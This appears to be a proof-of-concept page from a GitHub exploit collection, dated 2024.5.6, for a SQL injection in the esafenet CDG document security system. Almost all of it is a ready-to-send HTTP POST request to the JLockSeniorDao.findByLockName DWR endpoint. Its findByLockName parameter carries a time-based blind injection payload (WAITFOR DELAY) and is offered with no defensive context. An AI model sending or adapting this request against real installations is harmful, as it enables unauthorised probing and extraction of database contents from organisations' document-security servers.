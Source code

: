 # esafenet_JLockSeniorDao.findByLockName.dwr_sqli

from: https://github.com/wy876/POC/blob/main/%E4%BA%BF%E8%B5%9B%E9%80%9A%E7%94%B5%E5%AD%90%E6%96%87%E6%A1%A3%E5%AE%89%E5%85%A8%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F-jlockseniordao-findbylockname-sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

2024.5.6 @2 


```
POST /CDGServer3/dwr/call/plaincall/JLockSeniorDao.findByLockName.dwr HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Content-Length: 414
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: text/plain
Accept-Encoding: gzip

callCount=1
page=/CDGServer3/dwr/test/JLockDao
httpSessionId=
scriptSessionId=
c0-scriptName=JLockSeniorDao
c0-methodName=findByLockName
c0-id=0
c0-param0=string:defaultKey1';WAITFOR DELAY '0:0:3'--
batchId=0
```
